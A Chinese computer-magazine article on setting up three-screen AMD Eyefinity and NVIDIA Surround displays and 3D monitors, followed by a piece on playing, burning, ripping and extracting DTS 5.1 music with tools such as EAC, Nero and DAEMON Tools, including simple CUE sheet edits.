我们今天介绍环屏不同于传统的多屏，传统的多屏只是简单将多个显示器连接到电脑的显卡接口上，主屏幕和副屏幕之间是相互独立的，例如玩游戏时就只能有一个屏幕能全屏游戏。而环屏则是把多个显示器当做一个显示器来看待，如果是三台分辨率各为1920×1080的显示器，就会被电脑当做一台5760×1080的超高分辨率超宽屏幕。游戏和各种软件应用都能以这种超宽屏的方式运行—特别是玩游戏，简直是爽呆了！视野宽阔三倍之后，玩《魔兽争霸3》时你可以看到比对手更多的画面，而玩《鹰击长空》或者《微软模拟飞行》这种飞行游戏时，能更方便了解周围环境的情况，让游戏进行得更加顺利。

而对于游戏之外的应用，环屏也是很有帮助的。如果你经常要同时打开多个文档对比着看，会发现环屏极为方便；而用环屏模式运行PhotoShop处理大型图片，可以大大提高工作效率；如果是商务展示，环屏也比传统的屏幕墙要廉价和方便得多。

## 硬件准备

其实环屏对硬件最主要的要求是显卡，对显示器则主要是接口方面的要求。AMD和NVIDIA的新型号显卡都支持环屏显示，其中AMD的环屏技术叫做“Eyefinity宽域”，而NVIDIA的叫做3D Vision Surround，不过两者的具体实现方法有很大差别。AMD的Eyefinity可以轻松实现单显卡连接三个显示器，成本较为低廉，实现也很简单；而NVIDIA的3D Vision Surround必须在SLI多显卡模式或者单卡多GPU（例如GTX 295）时才能实现（具体系统要求参见网址：http://tinyurl.com/5ybw9gp），不光显卡花费高，支持SLI的主板也不便宜，这就失去了成本的优势。所以在搭建环屏时，我们推荐使用AMD显卡。AMD的显卡只要是标出支持DirectX 11的均可以搭建Eyefinity环屏，理论上一块显卡最多可以支持连接六台显示器，虽然实际上多数显卡都不会提供这么多接口，不过搭建三块屏幕的环屏已经足够，而且如果一块显卡带的显示器太多的话，对性能的负担也会很重，因为玩游戏时每一块显示器都会加倍显卡的负担。而显示器方面，三台最好是尺寸和型号都一样，这样拼接在一起才能够保证画面的整齐；接口则DVI是最起码的，并且其中一台最好要带有DisplayPort接口（如果没有，需要使用一种主动式转接头，这个是必须的）。

## 驱动软件的设置

三个显示器都与显卡连接好之后开机，会发现三个屏幕都会显示相同的画面，或者有某个显示器不亮，这说明还需要在驱动软件中设置Eyefinity功能。具体设置方法如下：

- 1. 在电脑桌面上点右键，选择右键菜单最上方的AMD控制中心。
- 2. 选择控制中心左侧的“AMD Eyefinity多显示器”，选择“创建Eyefinity显示器组”，在三个显示器中任选一个作为主显示器，然后选择显示器组的布局——也就是让你选三个显示器是横着排还是竖着排。
- 3. 选择控制中心左侧的“排列Eyefinity显示器组”，配置三个屏幕的显示内容；系统会随机使一个显示器蓝屏，让你在控制中心中点击它所处的位置。例如如果蓝屏的那个显示器是在左侧，你就在控制中心里左侧的那个格子上点一下；然后再选择另一个显示器的位置，三个显示器的Eyefinity组合就配置好了。
- 4. 最后一步是控制中心里的调整边框补偿，可以消除显示器边框的画面视差，看上去会更适应一点：这个可以根据自己喜好选择是否补偿，因为被补偿的那部分画面就看不到了。
Eyefinity的兼容性可以说很好的了，不光《极品飞车：变速2》这种新游戏直接支持，连《魔兽争霸3》这种老游戏都完美支持。

### 硬件搭建

一般的三屏Eyefinity搭建是非常简单的，将三台显示器分别于显卡的三个接口相连即可。不过简单地将三个显示器并排放在一起未免有些太简陋了，要调节方向和角度都不方便。这样一来多显示器支架就诞生了。市面上有不少这种显示器支架可供选择。而今天我们实验所使用的是华硕的一款三屏台式机CG1330，其自带了可以使用三台21.5英寸显示器的支架，下面就简单介绍一下其搭建过程：

- 1. 将非常沉重的“支柱”装到底座上，并且拧上两颗大号螺钉。
- 2. 将铝合金的“扁担”装到“支柱”上，同样需要两颗大号螺钉固定。
- 3. 将显示器和固定器用螺钉固定，这个固定器是可以旋转的，需要时还可组建三块屏幕以竖屏组合的Eyefinity。
- 4. 将固定器卡到“扁担”上，需要拧紧固定器上的大螺钉，以免显示器滑落。
- 5. 支柱的顶端可以揭开，将附送的六角扳手插进去，拧松弹簧之后可以调节显示器的高低。

## 玩法二：3D 显示

进入2011年之后，由于技术的逐渐成熟和3D内容的逐渐增多，加入到3D技术的各路厂商也越来越多，3D显示已经很明确地成为不可阻挡的潮流。在《电脑爱好者》5月15日刊《主流3D显示解决方案分析》一文中，我们从理论上详细介绍了目前市面上存在的三种主流3D显示方案，今天则将从硬件的搭建和软件的设置上来引导大家玩转3D显示。

### 硬件准备

#### 快门式与偏光式你选哪个？

从5月15日的文章中，我们可以了解到现在3D显示器主要分为快门式和偏光式两种，而快门式又有NVIDIA 3D VISION和HDMI 1.4快门式显示器两种方案。其中的NVIDIA 3D VISION对显卡、显示器和3D眼镜都有严格限制，显卡和3D眼镜都必须是NVIDIA生产的；而HDMI 1.4快门式则要求显卡必须带有HDMI 1.4接口，并且都是较新型号的一将用户限定在了台式机上，现有笔记本用户无法通过外接显示器的方式实现。而偏光式3D显示器完全没有这些限制。

此外，两种3D显示器对眼镜的依赖程度也不尽相同，偏光式的3D眼镜只需要两块偏振镜片，不用耗电，售价最多几十元；而快门式3D眼镜是通过高速开闭镜片使人左右眼看到不同画面，需要内置电池，目前一副眼镜的售价都在几百元左右。一个人在显示器前玩还能接受，如果是一家人在电视前观看，那成本就太高了。

此外，在使用体验上，两者也有非常大的区别。快门式的3D画面较为清晰稳定，但戴上眼镜后看到的显示器亮度会大幅降低，更不爽的是画面会有明显的闪烁感。而偏光式则没有任何闪烁感，显示器的亮度也要高一些，但目前的产品3D感觉不如快门式明显；而且其画面分辨率会比显示器实际分辨率降低一半，变成类似隔行显示的画面，显示文字时会看不清楚。大多数的3D电影院都采用了偏光式的解决方案，感觉其画面效果要比现有的偏光式显示器好很多，看来后者还有很大的提升空间。

偏光式液晶面板的主导厂商是LG Display，其开发的FPR液晶（国内被宣传为“不闪式”）通过在面板上覆盖特殊薄膜使人左右眼看见不同画面而产生3D视觉。相对快门式其对眼镜的依赖大大降低，不需要额外的同步信号发射器，也简化了整套3D显示方案的组成。目前国内众多3D电视品牌都采用了此方案。显示器方面已上市的产品还不多，AOC和宏碁等厂商将会采用。

### 硬件搭建

3D显示的硬件搭建相对就比较简单了，只需要将符合条件的硬件都组合在一起即可。

- 1. 如果你采购的是NVIDIA 3D VISION套装，显卡和显示器相连必须使用Dual-Link DVI线而不是平时的普通DVI线，此外还需要用USB接口连上3D VISION的信号发射器。
- 2. 如果你购买了HDMI 1.4接口的3D显示器，需要用质量较好的HDMI线与具有HDMI 1.4接口的显卡相连。注意HDMI线一定要质量好的，因为有很多玩家反应劣质HDMI线会无法显示3D，但并没有必要购买价格昂贵的所谓“HDMI 1.4认证”线。
- 3. 如果你购买的是偏光式3D显示器，对显卡和连接线并没有特殊需求（当然考虑到画面质量还是推荐DVI和HDMI而不要使用VGA接口），即使你用的是老款笔记本电脑也可以外接偏光式3D显示器使用。
- 4. 如果你购买了3D的一体机电脑那就更简单了，不需任何连线只要带上眼镜就能立即享受3D。

### 软件设置

我们平时玩3D显示，主要分3D电影和3D游戏两种情况。3D电影可以通过PowerDVD等软件播放，可以在软件菜单中选择3D效果的开启和关闭，即使是2D的片源也可以通过软件的功能转换为3D。相对很简单，但游戏的情况则要复杂一些，因为目前几乎所有的PC游戏都没有在菜单中提供开启3D显示的选项，需要通过NVIDIA的驱动程序或者其他第三方软件才能实现，这就在兼容性上有所降低。下面分类介绍。

#### 3D电影播放软件

支持3D播放的软件有很多，这里首先推荐PowerDVD，这是一款收费软件，对蓝光3D影片的支持是最好的，如果要开启3D效果只需按下主界面下方有“3D”字样的按钮。它还可以自动将普通2D电影转换为3D模式，同样也是按下“3D”按钮。
按下“3D”按钮后会让你选择原片的格式，例如蓝光3D或者2D转3D等；同时还需要选择显示设备的类型，例如NVIDIA 3D VISION，HDMI 1.4和交错式（也就是偏光式）等。选择好之后就可以开始享受3D大片的精彩了。
不过PowerDVD并不能使用我们常用的外挂字幕，如果需要外挂字幕那就只能用其他的软件了。这里推荐国产的“射手影音”，它可以自动从网上搜索字幕下载；不过“射手影音”的3D选项并不丰富，更完整的功能则可以考虑Stereoscopic Player这款软件。

#### 让游戏呈现3D画面

前面介绍过目前游戏都需要通过第三方的软件或者显卡驱动才能设置输出3D画面，对于NVIDIA显卡可以使用其驱动软件中的3DTV Play，而AMD显卡则需要第三方软件iZ3D或者TriDef 3D才行。

##### AMD显卡

iZ3D和TriDef 3D都是收费软件，不过由于双方合作的关系，iZ3D对AMD显卡用户是免费的，所以也成了AMD显卡的首选。下面是它的使用方法：

- 1. iZ3D的下载地址为http://www.iz3d.com/driver，安装时有一步让你选择要安装的组件，注意一定要选择Full Installation完全安装，这样才会包含为AMD显卡优化的功能。
- 2. 打开iZ3D主界面，勾选“立体启动”，选择立体装置为“AMD HD3D Devices”，然后点击右下角的“套用”。
- 3. 进入“进阶调整模式”，里面有个“游戏内设定”，如果你要玩某个游戏可以在右侧的列表中找到它，然后点击“套用”；不过这样你下次要玩另一个游戏时又要在这里更换才行。当然也可以选择通用的配置。这里还可以设置立体程度等一些选项。
- 4. 配置好iZ3D之后，直接打开想要玩的游戏就行了。更详细的使用方法请参考本期梦工场文章《平面变立体 3D游戏大升级》。

iZ3D目前大约支持100多款游戏，不过就算这100多款游戏也支持的不是很好。所以也可以兼带使用TriDef 3D这个软件。其使用方法如下：

- 1. TriDef 3D的下载地址为http://www.tridef.com/download/，安装好之后会联网激活，完成后会提供14天免费试用。
- 2. TriDef 3D会在桌面上生成两个图标，其中TriDef 3D Experience是它的主界面，提供了玩3D游戏、玩3D Google Earth和看3D电影/图片的功能，TriDef 3D Ignition则是专门玩游戏的。
- 3. 进入TriDef 3D Ignition，点击右侧的“添加”，在弹出窗口中的“游戏配置文件”下拉菜单中找到你要玩的游戏，然后在下方的“可执行文件”处浏览到游戏的目录，找到游戏的可执行文件。
- 4. 可执行文件会出现在TriDef 3D Ignition的主界面中，双击它即可开始玩3D游戏了。
- 5. 如果显示不正常，可以在“显示器设置”中选择显示器的品牌和类型。

##### NVIDIA显卡

与NVIDIA的3DTV Play相比，iZ3D和TriDef 3D对游戏的兼容性是难以让人满意的，要用户花钱去买就更有点不值了。所以使用NVIDIA显卡的用户可以完全抛弃这两个软件，而使用NVIDIA显卡驱动中自带的3D游戏功能。其使用方法如下：

- 1. 如果购买了3D VISION发射器，将其与电脑USB口相连；如果你购买的是HDMI 1.4 3D显示器，则戴上3D眼镜。
- 2. 首先在桌面上点击右键，选择“NVIDIA控制面板”，进入后在“3D立体视觉”中勾选“启用3D立体视觉”。
- 3. 此时会弹出3D设置界面，如果没有弹出可以在下方的“测试3D立体视觉”下拉菜单中找到“运行测试向导”。
- 4. 如果你拥有NVIDIA的3D VISION套装，当然在菜单中选择第一项“USB红外线发射器和眼镜”；如果你只想在普通显示器上体验一下，可以选择下方的“Discover眼镜”使用廉价的红蓝眼镜。
- 5. 测试向导会让你做一些3D视觉的测试，以保证软硬件都没有问题，照着提示一步步来即可。
- 6. 在测试中会让你检查画面是否有闪烁现象，然后让你选择室内的照明情况，选择100Hz即可，这样会发现闪烁现象大大减弱，因为室内的闪光灯会对3D VISION眼镜造成干扰，而匹配了国内通用的100Hz照明之后，会大幅减少干扰。
- 7. 测试完成后，直接打开要玩的游戏；就会发现游戏已经是3D的了；而且兼容性非常好，几乎所有游戏都支持。
- 8. 有些游戏会出现画面错误，这时屏幕的右下角会提示你解决方法，照着做就行了。不过这些提示都是英文的，需要查字典才行，无非就是让你降低画质之类的。

没有购买NVIDIA 3D VISION眼镜套装的用户就需要花钱购买3DTV Play软件了，需要花费约300多元（网址：http://tinyurl.com/6k9j7bn）。由于其兼容性的优势，这些钱花得绝对值！

### 想试试3D+环屏？

讲到这里，肯定很多玩家会想既然软硬件都搭建好了，能不能把3D显示和环屏合到一起玩呢？答案当然是肯定的，NVIDIA和AMD的显卡都支持这么玩。不过这应该仅限于资金特别充裕的玩家。
3屏组成的环屏对显卡的性能要求是单屏的3倍，3D显示对显卡的性能要求是2D的2倍；如果3屏+3D显示的话，对显卡的性能要求就是单屏2D模式的6倍。也就是说如果你的电脑原本玩某个游戏能跑出60fps的帧数，用在3屏+3D上就只能跑10fps左右了。所以要想流畅玩游戏，起码要使用2块以上的顶级显卡才行。
此外，3D显示器也比普通显示器贵好几倍，要组建大的3D环屏，显示器的成本也会提升好几倍。只有有条件的玩家能够尝试了。

‘结语’：今天讲的这些，可以说都是“烧钱”的东西，当然也是很好玩的东西；有了这些新的玩法，相信你再也不会觉得显示器单调，发展前景不明了吧。

策划/《电脑爱好者》编辑部
监制/范承飞
撰稿/范承飞

# 震撼！不单在影院里发生

以前，我总以为自己的耳朵是一双普通的耳朵，不同的音乐格式听起来不会有多大区别，因为曾听过一些APE，感觉只比MP3强一些，所以多少次在网上与DTS音乐失之交臂。但最近在收到一篇稿件，测试文章技术可行性时，让我彻底改变了看法。为了验证文章中涉及到的DTS音乐技术，我分别下载了李娜的“青藏高原”三个专辑（分别为MP3、APE、DTS三种格式），试听DTS之后才发现，“震撼”是个什么概念。

虽然我用的音箱只有2.0，距离作者文中所说的高级别配置相去甚远，但听完MP3再听DTS音乐的那种感觉，恐怕就像在高速公路上开完夏利再开宝马一般；听完DTS再听MP3，我才觉得自己的耳朵原来也很伟大——同一个专辑不同格式效果差别如此之大，简直让我不相信自己的耳朵。我想，普通电脑音箱尚且如此，如果有5.1的音箱，效果的震撼程度可想而知了。

于是，我一口气从网上又下载了10多个音乐DTS专辑试听，一个周末感觉爽极了。老婆听了以后说，以前放的是什么乱东西，这些才是真感觉。多年的音乐生活已经自得其乐，今天又找到了新的感觉。我想，如果能把我的这种感觉通过作者的手和技术传达给我们的广大读者，让大家了解和玩转DTS音乐，让大家的音乐生活从此上到一个新台阶，那该是一件多么快乐的事啊！

过去，常听磁带；现在，常听MP3，也许直到你接触了APE，才知原来所听有些垃圾。如果再试试DTS，那你一定会惊叹：此曲只应天上有，人间难得几回闻。那么，什么是DTS？它究竟有多强悍？你认为它离我们普通人远吗？我能用得上吗？本文将为大家进行全面的解读——无论你在家庭影院上，电脑上，汽车上欣赏，还是用于唱卡拉OK；无论你是音乐发烧友还是普通爱好者，DTS都将为你的音乐之旅带来前所未有的高品位体验。

## 现场化的音乐盛宴——解读 DTS

进电影院看大片，那是一种享受，以至于浪漫情侣间多采用这种方式向对方表白。影院中，当你被定位准确、如临其境的音响效果所震撼时，才能真正体会到那近100元的票价是多么的物超所值。原来，电影院多采用5.1环绕声道的DTS或杜比AC3音效系统。本文，我们只讨论5.1 DTS音乐。

> > **小提示：什么是5.1音效系统**
>
> 5.1音效系统由6个声道组成，它们分别是中置声道（1个声道），前置左、右声道（共2个声道），环绕左、右声道（共2个声道），重低音声道（1个声道）。要完美播放这种音乐，必须有对应的5.1音乐功率放大器（即5.1 AV功放）和对应的6只音箱。它能营造出很逼真的、立体化的现场感。

观看具有5.1音效的影片时，中置声道一般用于播放画面中“主人公”的声音，比如还击者的怒吼、炮弹出膛等，为此，中置音箱也应摆放于聆听者的正前方且与观众耳朵等高。前置声道主要用于表现“主人公”周围的其他声音，比如嘈杂的人声，子弹呼啸等。对应地，前置音箱应摆放于中置两旁且左右各一。环绕声道则专司远处的声音，比如飞机的盘旋，理所当然地，环绕音箱要摆在聆听者背后且比人耳略高，一般挂于左右两面墙上，如果配合得当，完全可在眼看飞机飞行的同时听到飞机发出的隆隆声从一只环绕音箱飘出再进入另一只。不难想像，就这5只音箱已能很好地将战斗现场表现得淋漓尽致了。重低音音箱本为加强音乐的低音震撼而生，对空间定位无什么贡献，一般扔在聆听者前方的墙边就行了，由于这一声道的音频频率（频率越高，音调越高）仅为其他声道的1/10（即0.1），它也就被称之为“.1”声道了，对应的音箱当然就是“.1”音箱。相信大家已能解释什么是2.0音箱或2.1音箱了吧。

在纯的DTS音乐中，中置声道一般用于表现歌手的清唱，而其他声道则表现位于不同位置的乐器伴奏。为表现出更强的定位效果，也可为纯音乐加上环绕立体声，比如：在描写草原情怀的歌曲中加入远、近、左、右位置变化的马蹄声，在描写自然风光的歌曲中加入百鸟扑腾声等。

### DTS重露锋芒

DTS是“Digital Theatre System”的缩写，“数字化影院系统”的意思。但是DTS并非新鲜事物，早在上世纪九十年代就已粉墨登场，硬件技术都已十分成熟。DTS音乐主要用于电影的伴音，并不利于DTS的普及。虽然同时兴起的还有家庭影院，但在那时的经济条件下，动辄上万元的价格将它束之高阁。多媒体电脑概念的提出和MP3的大行其道是另一个阻止DTS普及的原因。期间电脑和配件价位的高高在上，无法让DTS走进寻常百姓家。后来，随着技术的进步和产品的批量化生产，DTS才走下神坛飞入寻常百姓家。目前，DTS音效的电影、纯的DTS音乐光盘都已大量面市，而且可用电脑播放。主流配置电脑的标配显卡已能流畅播放视频，如果抱定聊胜无的心态去欣赏5.1音效，那总投资也就一块5.1声卡和5.1多媒体音箱，千元以下足以搞定。本文，我们重点讨论纯的DTS音乐。

### DTS独领风骚

与其他音乐格式相比，DTS有其独特的优势所在。首先，我们比较一下同为环绕立体声的DTS与杜比AC3，它们都可以5.1音效的形式存在。从“码率”这一指标上看：DTS为768-1536Kbps，一般取1.41Mbps；而AC3的“码率”仅在192Kbps到448Kbps之间。算算吧，1.41Mbps是192Kbps的多少倍！另外，APE的“码率”一般为905 Kbps，MP3一般为192 Kbps，APE、MP3都只能是2.0声道音乐。接下来再比较一下波形图，我们将DTS格式的WAV文件《爱情错觉》和网上下载的同名MP3文件同时导入到工具软件GoldWave中，而且让它们的波形都显示出来。纵向比爆音：振幅越大，表示音量越大，但太大则播放时会出现明显的爆音。显然，MP3在很多地方都超过了指标1.0且有些杂乱无章，中了头彩。而DTS都没超过0.5，听起来自然会非常柔和。横向比细节：可看出，我所选取的DTS文件的波形时长为0.1秒，而MP3为3秒。明显地，DTS的波形很密集，要是将MP3的波形时长也取0.1秒，那波形将稀疏得如秃顶的老人。波形图的疏密程度决定了音频的细节多少，显然，DTS非常密集，这决定了它听起来非常丰满。说明：GoldWave无法正常试听DTS，为此，只好直观地比较一下波形。另外，本例使用的DTS为5.1声道音乐，但GoldWave却将它识别为2.0声道。笔者还没找到能试听DTS和MP3，同时又能很好地比较波形的工具软件。

> > **小提示：**
>
> 大家知道，WAV格式是微软公司开发的一种声音文件格式，也叫波形声音文件，是最早的数字音频格式，被Windows平台及其应用程序广泛支持。同时，应该知道，WAV格式支持许多压缩算法，如果由DTS原生地转换而来，那它就采用DTS压缩算法，虽然对应的音频文件扩展名是WAV，但它也是DTS文件。本文中，只要不特殊说明，很多WAV文件都是指DTS文件。

## 电脑人的音乐便餐——软播 DTS

本方案献给所有用电脑听音乐的用户。笔者首次接触DTS音乐也是缘起于朋友的介绍，忍不住网上一搜，结果大有收获。只在电脑上试听，便被它的音质效果所震撼。对于只有普通电脑音响的用户来说，用电脑来播放DTS音乐，较之以往的MP3格式，给你带来的震撼也将是前所未有的。

### DTS音乐何处寻

目前，DTS音乐的获取途径很多，可到音像店购买光盘。只要注意光盘上有DTS标志就行了。另一途径是从网上下载，它们是DTS音乐光盘的所有者对光盘进行抓轨或压缩并上传到网络的。在电驴官网（http://www.verycd.com/）上，只要输入DTS，一搜就有一大把。要注意的是，抓轨或压缩时使用的工具不同，最终形成的文件也不同，有的只有一个文件，多数扩展名为NRG（本文，我们简称这类文件为NRG文件，同理，DTS文件的扩展名为DTS）。一般地，它是用刻录软件Nero对DTS光盘制作的映像。有的却由两个文件组成，比如CUE文件+DTS文件组合（或CUE+WAV），这两个文件的主文件名相同，只不过扩展名分别是DTS和CUE，为方便管理，最好将二者一起保存到单独的文件夹里。还有少数由MDF+MDS组合而成。

### DTS音乐如何播

如果有DTS音乐光盘，直接在支持DTS解码的DVD影碟机上播放即可。当然，要完美地欣赏，还必须有配套的5.1音乐功率放大器和5.1音箱。如果只有2.1或2.0音响系统，所有的声道信息也不会丢失，它们会综合起来并模拟为2.1或2.0声道输出，只是无法有效区分歌手原唱、各伴奏乐器的相对位置而已。比较而言，在电脑上播放DTS会更容易，可以是光盘，也可是下载回来的文件，最好是有5.1声卡和5.1多媒体音箱（一般为有源音箱）。文件格式不同，播放方法也不同，下面简要说明。

**需要的软件：** 千千静听、完美解码、DAEMON Tools 等。

1.  播放CUE+DTS文件
    对CUE+DTS（或CUE+WAV）文件而言，DTS（或WAV）文件存放的是音乐文件本身，而CUE文件则存放的是曲目。用千千静听打开CUE文件，歌曲名会自动解析出来并出现在千千静听的“播放列表”中，能用“上一首”或“下一首”按钮进行曲目的选择。另外，千千静听还能显示歌词，推荐采用这种方式。虽然用千千静听直接打开DTS（或WAV）也能播放，但该文件相当于多首歌曲拼接而成的，也就无法

## DTS播放软件比较与推介

不知大家是否注意到，十分年轻的播放器 QQ 音音和新版本的 Ariplay 也能播放 DTS，这也是 DTS 慢慢深入人心的结果。为让大家能选择好适合于自己的播放工具，我们对常见播放器进行了简单的测评。

QQ 音音：能通过 CUE 加载 DTS 或 WAV 文件，既能播放又能显示歌词，如果直接播放整轨的 DTS 或 WAV 文件，能播放但无法显示歌词。

Ariplay：能通过 CUE 加载 DTS 或 WAV 文件，能正常播放，虽有搜索下载歌词功能，能直接播放整轨 DTS 或 WAV，但仍然无法显示歌词。这一播放器有一特殊之处在于，如果 DTS 或 WAV 与 CUE 在同一文件夹下，那么，打开 DTS 或 WAV 时，它会自动从 CUE 中读取出歌曲名。

QQ 音音和 Ariplay 都无法播放光盘或虚拟光盘中的 DTS 音乐。另外，千千静听和 QQ 音音能对添加到播放列表中的歌曲进行格式转换，其中千千能转换出的音乐文件格式很多，而 QQ 音音只能转换出 WAV 或 MP3，QQ 音音能对音乐进行剪切再转换格式，而千千静听却不行。

综合起来看，如果播放 CUE+DTS（或 WAV），千千静听是不二之选，如果还想制作手机铃声，那就选择 QQ 音音吧。

至于完美解码，它注重的是光盘播放功能，如果播放光盘中的 DTS 音乐，它一定是首选。播放 NRG 或 MDF+MDS 文件时，它比千千静听更方便。

另外，坊间还广泛传言 Foobar2000 也能支持 DTS，但无论是播放还是显示歌词都得安装插件并进行必要的设置，我看还是免了吧。

还有一个播放器中的后起之秀——酷狗播放器，它对 DTS 播放的支持也很到位，值得向大家推介使用。

## 发烧友的音乐珍藏——刻录 DTS

本方案献给有家庭影院的音乐发烧友

播放音乐文件，必须有对应的解码器，否则无法播放。能播放 DTS 的 DVD 影碟机中有专门的 DTS 解码电路，它能将从光盘读取出来的信号分解为多个声道，再输入到 5.1 音乐功率放大器中，这种解码也常被称为“硬解码”。在电脑中播放 DTS 音乐时，一般是通过播放器的解码程序进行解码，也称为“软解码”。与“硬解码”相比，效果上将大打折扣。另外，电脑上的多媒体音箱（一般为有源音箱）与家庭影院中的分离式音乐功率放大器、音箱相比根本不可能相提并论。为此，对电脑多媒体嗤之以鼻的真正音乐发烧友会选择用家庭影院来播放 DTS 音乐。当然，我们首先要做的是将下载回来的 DTS 原汁原味地刻录到光盘上，由于下载所得的文件格式不同，刻录方法也有所不同，下面对不同格式的刻录方法作简要说明。

### 刻录 CUE+DTS 到光盘

要求 CUE 文件与 DTS 文件（或 WAV 文件）的主文件名相同且位于同一文件夹里。用虚拟光驱软件 DAEMON Tools 加载 CUE 文件，记住虚拟光驱的盘符，比如本例为 J：盘，运行刻录软件 Nero Express，在其主界面上单击“映像、项目、复制→复制光盘”。接着，在“源驱动器”下选择加载了 DTS 音乐的虚拟光驱（本例为 J：盘）；在“目标驱动器”下选择已插入了空白光盘的刻录机。单击“复制”，马上一张 DTS 音乐光盘就火热出炉了。

### 刻录 MDF+MDS 到光盘

刻录方法与上类似，只要先用虚拟光驱加载 MDS 文件再用 Nero 复制即可。

### 刻录 NRG 文件

扩展名为 NRG 的文件本身是用 Nero 对 DTS 光盘制作的映像文件，刻录当然首选 Nero。首先，运行 Nero Express，选择“映像、项目、复制→光盘映像或保存的项目”。从打开的窗口中找到扩展名是 NRG 的映像文件。接着，选择已插入了空白光盘的刻录机并单击“刻录”即可。

这里提供的几种刻录方法都将原汁原味地保留 DTS 文件的纯正而不变质。

### 自制 CUE 文件后刻录

要刻录 DTS 或 DTS 编码的 WAV 文件，需要 CUE 文件的支持。但是，下载回来的文件有时只有 DTS 或 WAV，那就只好自己制作 CUE 文件了。下面对 CUE 的具体制作方法加以说明。

其实 CUE 是一个文本文件，如果熟悉规则完全可以手动编写，只是比较麻烦。为此，我们将先用抓轨软件 EAC 自动生成符合规则的模板再手动添加其他内容。

1.  第 1 步：运行 EAC，选择“工具→处理 WAV 文件”，将采用了 DTS 编码的 WAV 文件导入进来，对 DTS 文件，可事先将扩展名修改为 WAV。
2.  第 2 步：单击“目录文件→生成 CUE 目录文件”，EAC 会自动在 WAV 文件中搜索两歌曲之音的间隔并用时间将其标注出来。接着，单击“目录文件→保存 CUE 目录文件”即可。默认地，文件名为 "CUESheet.cue"。

用千千静听打开这一文件，WAV 文件即可自动播放，而且能进行曲目的选择，只不过每一首歌曲名都显示为 CUESheet。在生成 CUE 的过程中，不会对 WAV 文件进行编辑，当然不会破坏 WAV，可理解为借用一下 WAV 来创建 CUE。

在应用此 CUE 文件的过程中，我们会发现：无论将它放在哪一文件夹，都能自动播放 WAV 文件——只要 WAV 文件位置和文件名没有改变。但是，将 WAV 文件移动位置或改名后就无法用 CUE 来播放了——就算将 CUE 文件与 WAV 存放于同一位置。用记事本程序打开 CUE 文件，内容如下：

```
FILE "H:\DTS\极品好歌17.发烧女声精选(HiFi.DTS-ES)\极品好歌17.发烧女声精选(HiFi.DTS-ES).wav" WAVE
  TRACK 01 AUDIO
    INDEX 01 00:00:00
  TRACK 02 AUDIO
    INDEX 01 03:50:50
……
```

分析这一文件，不难得出这样的结论：
CUE 文件的第一句已明确指定了 WAV 的位置，为此，CUE 可放置于任何位置而 WAV 却不能。
第二行中的 “TRACK 01 AUDIO” 表示第一音轨，它从 00：00：00 时刻开始播放。依此类推，第二音轨从 03:50:50 开始播放。由于没有为每一音轨指定文件名，所以每一首歌曲都以 CUE 本身的文件名为名显示在千千静听的播放列表中。请在 “TRACK 01 AUDIO” 下添加以下两行内容，第一首就能显示出歌名 “红雪莲” 了，同理，可在 “TRACK 02 AUDIO” 下添加第 2 首歌曲名。

```
TITLE "红雪莲"
PERFORMER "群星"
```

## 大众化的音乐快餐——抓取 DTS

本方案推荐给无家庭影院的音乐爱好者

如果你搜集了不少 DTS 光盘，即便是你没有家庭影院，在电脑上播放也能有很好的效果。可是，听完一张就得更换光盘，麻烦。好在我们是用电脑来播放，有办法可以使上述问题迎刃而解。要在电脑上轻松播放，只要将光盘上的音乐文件抓取出来并保存到硬盘上即可。

DTS 音乐光盘一般由 700MB 左右的普通光盘刻录而成，在 “我的电脑” 下右击之，选择 “属性” 可观察到它的可用空间、已用空间和总大小都是 0。打开音乐光盘后，只能观察到多个名为 Track01、Track02……的音轨文件，每个音轨文件的大小仅为几十个字节。显然，无法用普通方法将其复制到硬盘之上，只能对音轨进行抓取或将整张光盘制作为映像文件。

**需要的软件：** 抓轨软件 Exact Audio Copy（以下简称 EAC）。映像制作、刻录、管理软件 Alcohol 120% 和 Nero。

我们在网上下载的 DTS 音乐多为 CUE+WAV（或 DTS）文件、MDF+MDS 文件、NRG 文件。想必你也一定想知道，网上共享资源的网友是通过什么方法制成这些文件的。限于篇幅，下面我只提供其中的一种方法，它能原汁原味地将 DTS 音乐提取到硬盘上保存，为在电脑上欣赏 DTS 音乐提供可能。更多的详细方法可在网上搜索答案。学会了这些方法，你不但可以从光盘制作 DTS 数字音乐文件，也能将制作的文件与网友分享了。

### 将 DTS 光盘抓取为 CUE+WAV 文件

获取这种类型的数字音乐可由 EAC 来完成。

1.  第 1 步：插入 DTS 光盘后，运行 EAC，其主界面会自动出现光盘中的音乐曲目。
2.  第 2 步：单击 “抓取镜像并创建 CUE 目录文件→未压缩”，再指定保存位置及文件名即可单击 “保存”。如果输入的文件名是 “发烧女声精选”，生成的文件就有两个，即 “发烧女声精选.wav” 和 “发烧女声精选.cue”，而且这两个文件是保存在同一目录下的。其中，WAV 文件存放的是音乐文件本身，虽扩展名为 WAV，但采用的却是 DTS 编码，用千千静听播放时能观察到这一属性。而 CUE 文件以存放的是歌曲目录、每首曲子的时长等，用 Windows 系统自带的记事本程序打开 CUE 文件可观察到这一特点。

网上，我们下载的却以 CUE+DTS 居多，它是这么制作出来的：抓取为 CUE+WAV 后，将 WAV 文件的扩展名修改为 DTS。接着，右击 CUE 文件，选择用记事本打开，找到下面一行，将英文引号中的 WAV 修改为 DTS 即可。

```
FILE "发烧女声精选.wav" WAVE
```

### 提取视频中的 DTS

DTS 音乐除存在于纯的音乐光盘外，还大量地存在于视频光盘中。你买到或借到的 DTS 音乐光盘也许是带有视频的那种，但你需要的是其中的 DTS 音乐。这种情况下，只要提取 DTS 音乐部分即可。

**需要的软件：** DVD Audio Extractor

## 车友的音乐自助餐——转换DTS

以DVD光盘为例说明如何提取其中的DTS音乐。
第1步：用完美解码播放DVD光盘，发现其中有我喜欢的李克勤演唱的两首歌曲《情深深》和《情非首尔》。播放到该曲时，在视频界面上右击并选择“DVD定位”，发现它们分别位于标题1的章节8和章节9。
第2步：运行音频提取工具DVD Audio Extractor，它会自动从DVD光盘中读取出所有的音频文件。在此，可看出该音频采用了DTS编码，而且有6CH字样（表示6个声道，即5.1格式）。显然，我们应该选择标题1的章节8和章节9。
第3步：在下一步中，选择输出格式为“WAV PCM未压缩Wave”，采样率为“同输入的”，声道为“所有6声道”，比率为“16bits”，再勾选“保存每个声道到各自的文件”。接着，指定保存位置并单击“开始”，音频提取工作即可自动进行。
